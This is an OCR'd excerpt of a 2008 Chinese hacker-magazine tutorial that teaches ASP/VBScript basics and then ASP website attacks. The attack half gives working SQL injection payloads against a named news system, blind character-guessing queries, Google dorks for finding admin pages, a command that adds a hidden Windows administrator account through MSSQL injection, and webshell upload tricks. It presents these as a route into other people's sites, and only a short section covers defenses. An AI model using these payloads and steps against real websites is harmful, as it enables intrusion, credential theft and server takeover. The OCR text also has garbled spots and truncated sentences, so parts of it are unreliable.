

图14 inputbox 输入框

这里同时为大家介绍另一种VBScript脚本的写法，不是将那段脚本放在表单之前，而是放在表单之中。例如：

```
<form name=form1>
<script for=button1 event=onclick language="VBScript">
msgbox "点击了按钮" // 弹出提示
</script>
<input type=button name=button1 value="点击一下这个按钮"> 
</form>
```

我们将脚本放在表单中间，一样可以达到相同的效果，按下按钮时也会弹出提示框。For后面跟脚本所要响应的对象，这里是button1这个按钮；event=onclick表明我们要跟踪的是button1的单击事件。以上做为了解的内容，大家可以融会贯通。

接下来我们了解下VBScript控制结构，好好利用可是威力无穷，人生必备哦！这里只把比较重要的判断结构和循环结构特别挑出来为大家进行讲解。

#### 1. 判断结构

判断结构就是判断条件是否满足，如果满足则执行相应语句，不满足则执行另外的语句，或者跳出程序。学习过编程的朋友应该都十分熟悉，先看如下代码：

```
<script language=VBScript>
dim a // 声明一个变量
a=int(inputbox("请输入一个数字\__)) // 给a赋值，强制转换成整数
if a<100 then
msgbox "这个数小于100" // 如果小于100，给出提示
else
msgbox "这个数大于100" // 如果大于100，给出对应的提示
end if
</script>
```

运行这段代码，我们输入任意的数字后程序将给出提示。其中的if 条件 then 语句 else 语句 end if为一个判断结构。这个程序的判断是：如果a 这个值小于100就提示“这个数小于100”，否则提示“这个数大于100”。

Int 是对所输入的内容取整，也是我们经常用到的一个函数。这里只判断了一个条件，如果要判断多个条件可以用and 或者or 来进行连接。另外，判断结构还可以依次判断条件是否成立，进行多个判断，请看如下代码：

```
<script language=VBScript>
```

#### 2. 循环结构

循环结构也是很基本的结构语句，利用它可以多次执行相同的一段代码。V B S c r i p t 中一共有三种类型的循环语句，分别为f o r 循环、d o 循环以及f o r e a c h 循环，我们这里只简单介绍下f o r 循环。

如果我们要依次输出“《黑客手册》第X期”（X是1到7），应该怎么办呢？一条一条的写吗？其实大可不必，请看下面的代码，运行后的效果如图17所示。

```
<script language=VBScript>
for i=1 to 7 //开始for循环
document.write ("《黑客手册》第 \& i \& ' 期<br>") //在网页上输出内容
next
</script>
```

F o r i=1 t o 7指i从1一直循环到7，其下的代码要被执行七次，每次i的值会增加一，直到i的值大于7了才跳出循环。N e x t和f o r是配套使用的，如果只有f o r而没有n e x t，程序将不能成功执行。

Document.write语句是在当前网页上输出内容，相当于我们在V B中使用的p r i n t。"《黑 客手册》第" \& i \& "期<br>" 这里，我们看到字符串是使用\&连接起来。在V BScript中，字符串的连接使用\&，+ 号可以用于数学运算。

# 非安全·黑客手册2008第一增刊

大家对for循环应该有初步的认识了，我们再写个简单的程序来加深理解，比如计算1到1000之间的所有整数的和，代码如下：

```
<script language=VBScript>
s=0 // 为s初始赋值为0
for i=1 to 1000
s=s+i // 每一步循环都在原来s的基础上再加上i值
next
msgbox "1到1000之间的数的和是" & s // 提示结果
</script>
```

这里每循环一次i的值都要加一，直到i变为1001，循环停止，跳出循环。循环语句的使用在数学运算中尤其广泛，大家应该熟练掌握。

需要注意的一点是，这里和VB编程有点区别，VB编程中循环语句是for i=1 to 100 …… next i，也就是next后面多了一个i，变成了next i。虽然只是一点小的区别，却可能导致程序无法正常运行。

关于循环结构，我们只是简单介绍下for循环，其它的循环结构也与之类似，大家掌握好for循环基本上就可以解决许多问题了。

前面的程序都是客户端脚本哦，现在我们要了解下服务器端脚本。服务器端脚本可以放在<% 和 %>之间，也可以在我们之前的代码中加上runat=server，让服务器认出这是服务器端脚本程序，比如：

```
<script language=VBScript runat=server>
</script>
```

它的功能与<% 和 %>是一样的，我们来写一段简单的服务器端脚本程序，比如输出一段文字，代码如下：

```
<%
Response.write("欢迎进入《黑客手册》论坛")
%>
```

打开这个页面我们就可以发现网页上输出了一段文字“欢迎进入《黑客手册》论坛”。Response是ASP的一个内置对象，可以用它来输出文字或将页面重定向、写入cookies等等。其中write方法是用来输出文字的，Response.wirete(“内容”)就可以在网页上输出相应内容，我们也可以输出一个变量的值。例如先前已经有一个变量a，那么我们可以用Response.write (a)来输出a的值，这里不能加引号，只有文字的两端才会加双引号。

关于VBScript脚本的内容，我们就介绍这些，大家掌握基本的一些语句就可以了。希望大家先将前面代码的书写格式和相应功能了解透彻，这会对你对VBScript脚本的认识加深许多。编程可是脑力和体力的双重劳动，大家一定要多点耐心。

### 四、ASP内置对象

ASP中包括多个内置对象，分别为request、response、server、application和session对象。这里我们来了解request、response和session这三个对象。

# 入门的选择 -- Asp 编程攻防浅析

### 1. Request 对象

Request 对象的主要作用是读取用户提交的表单中的数据，或者是 cookies 中的数据，例如我们可以用它的 querystring 数据集合来读取客户端以 get 方式提交的数据，先写段代码来看看 request 对象的作用。

```
<% 
 username=request.querystring("username") 
 Response.write("你输入的用户名是 " & username) 
 %> 
 <form name=form1>请输入你的用户名: 
 <input type=text name=username> 
 <input type=submit> 
 </form>
```

Username=request.querystring(“username”)就是用来收集提交的用户名的，我们同时用 response 的 write 方法将接收到的用户名输出到页面，程序运行后的效果如图 18 所示。



我们观察地址栏，可以看到有一个参数 username=admin，这里就是我们在表单中填写的数据，它已经以 get 方式提交出去了，表明我们用 requery.querystring 数据集合成功接收到了数据。

那如果我们用 post 方法提交数据呢？效果又会是怎样？请看如下代码：

```
<% 
 username=request.form(“username”) 
 Response.write(“你输入的用户名是 “ & username) 
 %> 
 <form name=form1 method=post>请输入你的用户名: 
 <input type=text name=username> 
 <input type=submit> 
 </form>
```

大家可以看到表单中我们将 method 定义为了 post，而且接收数据时也采用了另外一种方式，使用 request.form(“username”)，于是我们知道，post 方式提交的数据需要使用 form 数据集合来进行收集。

我们如果用 request.form 来接收 get 方式提交的数据，或者使用 request.querystring 来接收以 post 方式提交的数据，都不能接收成功。事实上，无论以 get 方式还是以 post 方式提交的数据，我们都可以简单地使用 request(参数)这样的方式来接收。

我们来看一个例子：

```
<% 
 id1=request.querystring(“id”) 
 id2=request.form(“id”) 
 id3=request(“id”) 
 response.write(“id1 的值是 “ & id1 & “<br>”) 
 response.write(“id2 的值是 “ & id2 & “<br>”)
```

response.write("id3的值是 " & id3)
%>

代码中的id1使用querystring数据集合来收集数据，而id2用的是form数据集合，id3则用request(“id”)这种最简单的格式来收集数据。我们看看访问这个022.ASP?id=5201314后的效果，如图19所示。



我们可以看到，id1和id3都成功得到了数据，只有id2没有收集到数据，说明用form数据集合只能收集以p ost方式提交的数据，以后用的时候一定不要弄错了哦。与之类似，用querystring数据集合则无法收集以post方式提交的数据。

以get方式传递的参数，我们直接在地址栏就可以提交，例如直接在地址栏访问002.ASP?id=5201314就可以了。我们平时手工注入时，就是直接在地址栏里修改参数来构造一定的sql命令。

# 2.response对象

Response对象在实际编写代码时应用得十分广泛，例如我们先前所说过的response的write方法，可以在网页中输出内容，而且还可以利用它的redirect方法对网页进行重定向。

```
<%
response.redirect("/blog")
%>
```

将这段代码保存在首页文件中，比如index.ASP文件，当别人访问这个index.ASP文件时，就会直接重定向到blog文件夹去。

我们还需要了解下response的cookies数据集合，利用它可以向客户端写入cookies。格式为response.cookies(cookies的名字)= 某个值，请看如下代码：

```
<%
response.cookies("nohack")="www.nohack.cn"
%>
```

以上代码表示，将值www.nohack.cn写人名为nohack的cookies。我们用老兵的cookies工具看看是否已经写人成功，如图20所示。



现在再来看看怎样读取与之对应的cookies值。例如前面我们的值写入了名为nohack的cookies，这里就使用request.cookies("nohack")来进行读取，代码如下：

# 入门的选择--Asp编程攻防浅析

```
<% response.cookies("nohack")="www.nohack.cn" ' 首先写入cookies值 this=request.cookies("nohack") ' 接着读取cookies值 response.write(this) ' 最后将读取的cookies值输出 %>
```

Cookies的读取和写入是十分方便的，绝大多数程序在编写时都会向客户端写入cookies，用来储存用户的数据或者验证用户的登录情况。我们利用cookies也可以取得一些十分重要的信息，这个将在后面的相关内容中进行说明。

我想到此，朋友们对于ASP编程已经有了进一步的了解，有些朋友甚至可以独立地写出简单的ASP程序了。以上的内容也纯属抛砖引玉，很多东西还是需要大家去领悟和练习。至于数据库编程和文件操作方面，因为其内容十分繁多，我也不便于用十分概括的方式为大家阐述，所以还是讲一下我们另外的一个重点——ASP程序的攻防，这就是有一些ASP编程基础的朋友应该注意的问题了。

### 五、ASP程序攻防

本章是我们的重点，很多朋友都喜欢研究ASP脚本方面的攻防技术，事实上它所包括的范围是十分广泛的，我们尽量较为全面地来介绍一下ASP程序的攻防。

### 1. 暴库漏洞的原理分析及利用

暴库是一种十分简单的入侵方式．通过暴库我们可以获得数据库的路径．进而通过下载数据库找到管理员密码．或者是向改成ASP后缀的数据库内插入一句话木马．从而获取webshell。

暴库有多种方式，原理也不尽相同，我们先来看看第一种，就是错误调用数据库。这种情况很少遇到，因为如果错误调用数据库，程序将无法正常运行。那么它是怎样错误调用的呢？我们先来写一个数据库调用文件，命名为026.ASP，代码如下：

```
<% db="admin.mdb" set conn=server.createobject("adodb.connection") connstr="provider=microsoft.jet.oledb.4.0;data source=&server.mappath(db) ' 数据库名称 conn.open connstr %>
```

在以上代码中，我们使用了server.mappath(db)来获取路径，数据库的路径就变成了这个026.ASP所在文件夹的绝对路径加上db中的相对路径。例如026.ASP是放在D：\web\ngstu\web\目录下的，db中的相对路径是admin.mdb，连接起来后数据库路径就变成了D：\web\ngstu\web\admin.mdb。这个数据库是存在的，程序可以正常运行。现在，我们再在网站根目录下建一个test文件夹，并在里面新建一个index.ASP文件，利用其调用026.ASP。我们应该怎么写代码呢？是不是这样：

```
<!--#include file=.. /026.ASP -->
```

就变成了D:\WEB\NGSTU\WEB\TEST了，再加上那个db中的相对路径，数据库地址就成了D:\web\ngstu\web\test\admin.mdb，这个数据库是不存在的，当然会出错了。

我们来运行看看，如图2 1所示，是不是出错了？而且还显示出了数据库的路径哦。



这也许算不上真正意义上的漏洞，实际上是程序员所犯的错误，但是偶尔我们还是会碰到这样的情况。错误说完了，我们来看看conn.ASP数据库连接文件的直接暴库。

举个最最经典的例子，就是老版本的动力文章系统存在的暴库漏洞，它的数据库连接文件conn.ASP是放在inc目录里的，代码如下：

```
<%@language=VBScript codepage=936 %>
<%
option explicit
response.buffer=true
dim conn
dim connstr
dim db
db="database/article.ASP"
Set conn = Server.CreateObject("ADODB.Connection")
connstr="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=& Server.MapPath(db)
conn.Open connstr
sub CloseConn()
conn.close
set conn=nothing
end sub
%>
```

在以上代码中，数据库地址是文件的相对路径database/article.ASP，但事实上在inc目录下根本不存在一个所谓的database目录，该目录倒是在程序根目录下。那程序员为什么要这么写呢？原来，调用这个conn.ASP的ASP文件都位于程序的根目录里，调用的时候当然就可以直接用database/article.ASP这样的路径了，问题是conn.ASP文件本身却不能这样用哦。

原理搞清楚了就来利用下，我们已经知道conn.ASP所在的文件夹下不存在database这个目录，直接访问inc/conn.ASP这个文件就一定会出错，如图22所示。



这种漏洞的应用真是特别简单啊，只要直接访问数据库连接文件就可以了。然而现在这样的漏洞已经难找了，有时候大家还是可以试试看的。

# 2.ACCESS 注入

注入是大家最熟悉的了，很多对 ASP 程序本身不是很了解的朋友都知道成天拿个 SQL 注入工具乱扫，例如啊 D、明小子、NBSI、HDSI 等。但是，仅仅只知道使用工具还是不够的。

注入的产生一般是由于程序本身对客户端提交的数据过滤不严格导致的，这样我们可以构造并执行相应的 SQL 语句，进而获得管理员账号或者相应权限。注入方式根据数据库的类型又分为 ACCESS 注入和 MSSQL 注入。

早期的程序员很容易忽略注入的问题，不过随着网络安全知识的普及，以及一些朋友编写的通用防注入程序的使用，这种情况正在不断减少。我们先来看看 A C C E S S 注入，雷驰新闻系统 1 . 0 就存在这样的漏洞。

通常检测注入漏洞是否存在的方法是在有参数传递的地址后加一个单引号，看程序是否出错。如果出错，我们再提交 and 1=1 和 and 1=2，看看分别返回的页面是否一样，如果不一样，则多半存在注入漏洞。

例如雷驰新闻系统的 onews.ASP 这个页面是存在漏洞的，我们随便找一条新闻连接，如 onews.ASP?id=45。在其地址后分别提交 onews.ASP?id=45 and 1=1 和 onews.ASP?id=45 and 1=2，结果返回了不同的页面，如图 23、图 24 所示。




这样就证明它确实是存在注入漏洞，如果是对手工注入不熟悉的朋友，我们可以将这个地址放到工具里面去扫了。例如使用啊D 注入工具，将这个地址放到注入连接里，然后点“检测”，程序就会自动检测这个连接是否存在注入漏洞，如图2 5 所示。检测完毕之后，我们再点“检测表段”，程序很快就会为我们列出存在的表段，如图2 6 所示。



表段就是数据库中存放各种数据的数据表，一般存放管理员账号的表段有：a d m i n 、adminuser、user、manage_user、manage、administrator、super、a_admin、x_admin、bbs_admin、bbsadmin、sysuer、userinfo等等。事实上程序已经内置了常用表段，我们直接用程序检测就可以了，当然你也可以在程序中添加你认为存在的其它表段。

等表段检测完了，我们再双击其中你认为存放了管理员账号的表段，程序便开始检测其中的字段了。在检测出的字段中，我们在复选框中选择存放了管理员信息的字段，再点一下“检测内容”，程序就会很快地将字段中的内容读取出来，然后存放在下面的信息栏里，如图27所示。



当顺利检测出用户名和密码后，就可以用它们去登录后台了。一般来说各种注入工具还附加有扫描后台的功能，当我们检测完账号后可以再在“检测管理员入口”一栏里检测下可能存在的入口，红色的图标代表存在的目录，绿色的小钩代表存在的页面，如图2 8 所示。



利用啊D 检测出来的后台有时候可能并不存在，这也是啊D 的一个b u g 。因为如果一旦网站中存在一个4 0 4 的转向或者一个单独修改后的4 0 4 页面，啊D 就会认为这个页面是存在的，并将地址列出来。

# 入门的选择---Asp编程攻防浅析

如果我们用工具并没有成功检测出后台时该怎么办呢？这时google就可以帮大忙了！在google里面搜索关键字：site:www.xxx.com inurl;admin，就能搜索出网站www.xxx.com中所有在地址中存在admin的页面。这类关键字还有：site:www.xxx.com inurl;manage和site:www.xxx.com intitle: "管理员登录"，最后一个是搜索在网页标题中存在“管理员登录”的页面。

利用工具的人侵我们就了解这些，现在来看看手工注入吧，这应该也是很多习惯了用工具体入侵的朋友急欲了解学习的，下面列出常用的一些ACCESS手工注入命令。

首先是猜解表名，我们使用exists(select * from 表名)，直接在地址栏加上就可以了。exists是ASP中常用的一个方法，用来判断是否存在指定的目标，例如文件或者数据。

比如我们检测onews.ASP?id=45这个页面所使用的数据库中是否存在admin表，就应该在地址栏里输入onews.ASP?id=45 and exists(select * from admin)，如果页面返回正常则说明存在admin表，不正常则不存在。另外，也可以使用exists(select count(*) from admin)来判断，效果是一样的。如果判断不存在的话，我们再换其它的表名来试试就可以了。

表名猜解出来我们再猜字段，可以用exists(select 字段名 form 表名)来进行猜解。先前我们已经确认存在admin这个表，于是在地址栏里写上onews.ASP?id=45 and exists(select admin form admin)来判断是否存在admin这个字段，如果页面显示正常则表示存在；同样，亦可用onews.ASP?id=45 and exists(select count(admin) from admin)来判断。

表段和字段的判断就这么简单，我们将其中的表名和字段名进行替换就可以猜解各种目标。由此可见，Exists方法在猜解中起着十分重要的作用。

现在我们已经猜解出表段和字段了，再来进行内容的猜解。在这之前我们可以先判断下存在的记录数：使用onews.ASP?id=45 and (select count(admin) from admin)>0，依次改变大于号后面的数字就可以判断admin表中存在的记录数为多少。比如以上命令中>3时恰好返回错误，而>2时访问正常，则说明该表的记录数为3，确定表中有三条记录。

接下来需要看看字段的长度，例如看第一条数据的长度，就使用onews.ASP?id=45 and (select top 1 len(字段名) from 表名)>1，然后累加大于号后面的数字直到返回不正常为止。当然，你也可以用等于某个数字来判断，例如onews.ASP?id=45 and (select top 1 len(admin) from admin)=5，如果返回正常，说明第一条记录里admin字段的长度是5。改变top后面的数值可以猜解另外的记录长度，比如要猜解admin字段里的第7个记录的长度是否为6，则命令为：onews.ASP?id=45 and (select top 7 len(admin) from admin)=6。

下面我们来猜解内容了，这里也是最关键的地方。首先了解mid函数，它使用的格式为mid(字符串,n,m)，意思是在该字符串中，从第n位开始，截取m个字符，例如mid(china,2,3)的值就是hin。另外，asc(ASCII码)是取得该ASCII码对应的字符。

猜解的时候，我们使用onews.ASP?id=45 and (select top 1 asc(mid(admin,1,1)) from admin)>90，一直改变后面的数字直到返回不正常。如果在99时返回不正常，则说明第一个字符的ASCII码为99。

为了缩小范围，一般还要用between来判断ASCII码是否位于两个数值之间。例如用onews.ASP?id=45 and (select top 1 asc(mid(admin,1,1)) from admin) between 90 and 100，就是判断admin中第一个字符的ASCII码是否位于90到100之间，如果是则返回正常页面。

内容的猜解按照这种方式进行下去就是了，我们已经知道用户名是admin，就来验证下吧!用户名第一位为a，ASCII码为97，使用onews.ASP?id=45 and (select top 1 asc(mid(admin,1,1)) from admin)=97，返回页面正常，说明是小写a。

为了方便大家学习手工注入，我写了一些程序，都将奉献给大家，如图29所示，是一个简单转换ASCII码的程序，可以很轻松地转换ASCII码。

手工注入我就简单地介绍这些，其实SQL语句是很多的，用其它的语句同样可以实现猜解，我就不一一举例了。

### 3. MSSQL 注入

接着来了解下MSSQL数据库的注入，拿到一个MSSQL注入点时我们可以做许多的事情。利用工具还是啊D，先来看看我发现的一个网站的MSSQL注入点。将这个注入点地址填到注入连接处，然后点“检测”，结果就出来了，如图30所示。

我们可以看到数据库类型为MSSQL，当前库名为taiwan106tv，而且它支持多行执行，权限为db_owner。检测表段和字段和ACCESS数据库的操作一样，而且利用MSSQL注入点是可以列目录的。利用啊D的“相关工具”－“目录查看”，在检测位置那里填上对应的磁盘和文件夹，然后点“开始检测”，程序就能很快检测出磁盘中的所有目录和文件，如图31所示。

利用列目录功能我们可以找到相应网站的目录，这时候再利用getwebshell来备份并插入一句话木马就可以了。但如果我们检测出来的用户权限是SA呢？这个时候就不需要那么麻烦地去找目录了，可以直接使用啊D的cmd上传和执行功能，直接在命令内容中输入添加系统用户的命令就可以了。命令格式是net user 用户名 密码 /add & net localgroup administrators 用户名 /add。

这样就可以添加一个用户，并且拥有系统权限。命令中的&符号为and，是连接两条命令用的，我们也可以分别执行&两端的命令，效果是一样的。执行命令中有可能遇到以下的

### 4. SQL 防注入

了解了如何注入，我们来看看如何防注入。现在网上已经出现了许多防注入程序，这给广大站长带来了福音，我们只要将防注入程序调用到 conn.ASP 这个通用文件中就可以实现对整个网站的防注入了。

例如将通用防注入程序命名为 Antsqlin.ASP，在 027.ASP 中写入<!-- #include file=”Antsqlin.ASP” -->就可以直接调用防注入程序了。但是必须注意：应该将防注入程序和被保护的程序放在同一目录，不然就会发生本章前面所提到的数据库调用出错。

当我们向 027.ASP 这个程序传递参数时，通用防注入程序就会检测过滤我们提交的数据，Post 方式和 get 方式提交的数据都会经过过滤。例如我们在 027.ASP 后面加一个参数 id，访问 027.ASP?id=1 是一个空白页，然后再在地址后面加一个单引号，如图30所示，我们提交的数据被拦截了，这样就可以防止客户端提交的非法参数了。

然而部分防注入程序却忽略了 cookies 的问题，仅仅是过滤了以 get 和 post 方式提交的参数。如果程序员为了简便，将代码写成类似 new sid=request(“new sid”)这样，问题就出现了。

> Request 方法读取数据是从 get 方式开始的．如果 get 方式读取的数据为空，则继续读取 post 方式提交的参数。那如果两者都为空呢？程序就会转向读取 cookies 中的数据。由于程序员忘记了过滤 cookies 中的参数，这样就造成了 cookies 注入。

现在一些新版本的 SQL 防注入系统中已经加上了 cookies 部分的防注入，我们直接使用就可以了。如果是单个页面，我们可以自己修改下代码来防注入，例如将 id = request.querystring('id') 改写成 id=cint(request.querystring('id'))，这样就把数据强制转换成整数。另外，程序员也不要为了简便而直接将 request.querystring('id') 写成 request('id')，注意要养成良好的程序书写习惯，排版要有格式，注释要齐全等等。

### 5. webshell 的获取

我们在拿到管理员的账号后，想到的就是上传自己的 ASP 马了。通常获取 webshell 的方法

# 入门的选择 --Asp 编程攻防浅析

是利用上传漏洞或者备份，及利用 WIN2003 中的 IIS 解析漏洞。

有些上传漏洞是可以直接上传 ASP 文件的，你只需要把 ASP 马上传就行了。有些上传漏洞不能上传 ASP 文件，但能上传其它扩展名文件，我们可以把 ASP 文件改名为 asa、htr、cer 等后缀再上传。当然，假设服务器支持 php 和 jsp，我们也可以上传相应类型的木马。

另外，我们还可以抓取 cookies，然后利用明小子的上传功能上传。抓取 cookies 可以用抓包工具 WSockExpert，如图36所示。



然后在明小子里面填上 cookies 和对应的接收地址进行上传就行了，如图37所示。

